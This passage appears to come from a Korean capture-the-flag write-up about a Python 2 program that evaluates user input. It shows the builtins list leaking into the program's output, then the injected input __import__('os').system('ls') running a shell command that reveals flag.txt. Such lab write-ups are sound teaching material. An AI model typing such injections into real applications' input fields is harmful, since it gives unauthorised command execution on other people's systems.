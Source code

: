 ```shell
Sometimes I wish I was ['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']
Well, it was nice meeting you, ['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BufferError', 'BytesWarning', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'NameError', 'None', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'ReferenceError', 'RuntimeError', 'RuntimeWarning', 'StandardError', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__debug__', '__doc__', '__import__', '__name__', '__package__', 'abs', 'all', 'any', 'apply', 'basestring', 'bin', 'bool', 'buffer', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'cmp', 'coerce', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'execfile', 'exit', 'file', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'intern', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'long', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'raw_input', 'reduce', 'reload', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'unichr', 'unicode', 'vars', 'xrange', 'zip']-year-old.
Goodbye!
```
우리가 사용할 수 있는 것들 중에 `__import__`가 눈에 띈다.
`os` 모듈을 임포트한 다음에 system 함수로 디렉토리를 확인해보자.
```shell
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('ls')
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
```